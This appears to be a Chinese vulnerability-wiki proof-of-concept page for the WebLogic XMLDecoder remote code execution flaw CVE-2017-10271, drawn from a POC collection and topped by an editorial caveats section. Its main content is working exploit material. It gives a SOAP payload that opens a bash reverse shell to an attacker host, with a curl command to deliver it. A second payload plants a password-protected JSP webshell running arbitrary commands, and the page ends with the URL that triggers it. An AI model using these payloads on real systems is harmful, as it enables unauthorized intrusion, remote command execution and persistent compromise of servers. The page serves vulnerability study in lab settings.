





# Weblogic XMLDecoder 远程代码执行漏洞 CVE-2017-10271

<!-- vulwiki-editorial:start -->
## 校订与适用边界

- 适用前提：Reachable unpatched SOAP endpoint, writable known deployment path for file-write example
- 证据范围：Substantial overlap with 488, adds endpoint list and curl delivery, but webshell object-tag variant may test older 3506 exposure rather than its patched 10271 bypass.

### 本次正文校订

- 按实际内容修正 1 处代码围栏语言标记，保留其中方法与请求内容。

### 尚未解决的证据缺口

以下限制仍适用于后文历史材料；相关版本、结果或修复结论不能据此视为已验证：

- Placeholder angle brackets inside XML must be replaced before parsing
- JSP prints full buffer rather than actual read length, corrupting output
- Hardcoded deployment hash/path not portable
- No patch guidance or removal of test JSP

### 操作风险与资料使用

- 含反向连接或交互式命令执行方法：会产生出站连接和子进程；目标、监听端与网络须在授权隔离范围内，结束后关闭会话并核对遗留进程。
- 含落盘脚本或账户创建：会留下持久状态。记录本次生成的路径或账户，测试后清理这些对象并撤销关联令牌；不要删除既有业务对象。

本页为文本校订，未执行代码、PoC 或目标请求；原图仅保留引用，未据此确认复现成功。
<!-- vulwiki-editorial:end -->

## 技术正文与历史材料

## 漏洞描述

Weblogic的WLS Security组件对外提供webservice服务，其中使用了XMLDecoder来解析用户传入的XML数据，在解析的过程中出现反序列化漏洞，导致可执行任意命令。

## 漏洞影响

```
Weblogic 10.3.6.0.0
Weblogic 12.1.3.0.0
Weblogic 12.2.1.0.0
Weblogic 12.2.1.2.0
```

## 环境搭建

Vulhub 搭建 weblogic 10.3.6.0 环境：

```shell
git clone https://github.com/vulhub/vulhub.git
cd vulhub/weblogic/CVE-2017-10271
docker-compose up -d
```

启动完成后访问`http://your-vps-ip:7001/console`可以看到管理界面。



## 漏洞复现

访问 `http://your-ip:7001/wls-wsat/CoordinatorPortType`，若存在，则可能存在漏洞。其他可利用 URL：

```plain
/wls-wsat/CoordinatorPortType
/wls-wsat/RegistrationPortTypeRPC
/wls-wsat/ParticipantPortType
/wls-wsat/RegistrationRequesterPortType
/wls-wsat/CoordinatorPortType11
/wls-wsat/RegistrationPortTypeRPC11
/wls-wsat/ParticipantPortType11
/wls-wsat/RegistrationRequesterPortType11
```



将以下 xml 数据保存为 poc.xml：

```
<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/"> <soapenv:Header>
<work:WorkContext xmlns:work="http://bea.com/2004/06/soap/workarea/">
<java version="1.4.0" class="java.beans.XMLDecoder">
<void class="java.lang.ProcessBuilder">
<array class="java.lang.String" length="3">
<void index="0">
<string>/bin/bash</string>
</void>
<void index="1">
<string>-c</string>
</void>
<void index="2">
<string>bash -i &gt;&amp; /dev/tcp/<your-vps-ip>/<your-vps-port> 0&gt;&amp;1</string>
</void>
</array>
<void method="start"/></void>
</java>
</work:WorkContext>
</soapenv:Header>
<soapenv:Body/>
</soapenv:Envelope>
```

使用 curl 以 post 方法上传 poc.xml，反弹shell：

```shell
curl -v -X POST -H "Content-Type: text/xml" --data @poc.xml "http://your-ip:7001/wls-wsat/CoordinatorPortType"
```





也可以写入 webshell：

```
<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/">
    <soapenv:Header>
    <work:WorkContext xmlns:work="http://bea.com/2004/06/soap/workarea/">
    <java><java version="1.4.0" class="java.beans.XMLDecoder">
    <object class="java.io.PrintWriter"> 
    <string>servers/AdminServer/tmp/_WL_internal/bea_wls_internal/9j4dqk/war/test.jsp</string>
    <void method="println"><string>
    <![CDATA[
<% if("023".equals(request.getParameter("pwd"))){ java.io.InputStream in = Runtime.getRuntime().exec(request.getParameter("i")).getInputStream(); int a = -1; byte[] b = new byte[2048]; out.print("<pre>"); while((a=in.read(b))!=-1){ out.println(new String(b)); } out.print("</pre>"); } %>
    ]]>
    </string>
    </void>
    <void method="close"/>
    </object></java></java>
    </work:WorkContext>
    </soapenv:Header>
    <soapenv:Body/>
</soapenv:Envelope>
```

访问 webshell：

```
http://your-ip:7001/bea_wls_internal/test.jsp?pwd=023&i=whoami
```




---

> 来源：Threekiii/Awesome-POC
